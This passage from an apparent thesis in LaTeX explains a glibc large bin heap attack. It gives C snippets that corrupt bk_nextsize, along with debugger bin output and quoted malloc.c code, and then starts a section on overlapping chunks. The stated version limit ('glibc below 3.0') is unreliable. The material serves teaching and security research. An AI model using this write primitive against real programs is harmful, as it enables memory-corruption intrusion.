\documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}

In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
 \end{lstlisting}

 The next step is to put the target address - 0x20 in the \lstinline{p1->bk_nextsize}. As we mentioned before, Just \lb{} chunk chunks use this pointer; they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}

The last step is to allocate a bigger chunk, so, \lstinline{p2} moves to a larger chunk. When \lstinline{p2} move to large chunk, the heap manager write the address of \lstinline{p2} inside \lstinline{p1->bk_nextsize->fd_nextsize} as the code of \libc{} show \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3843}{\texttt{malloc.c}, line 3843}}:

\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
 \end{lstlisting}

This attack works on \libc{} below 3.0.

\section{Overlapping chunks}
The goal is to have two chunks that write data in one of them and overwrite the other one data. We discuss this attack on a sample, first lest start 3 chunk of memory:
\end{document}

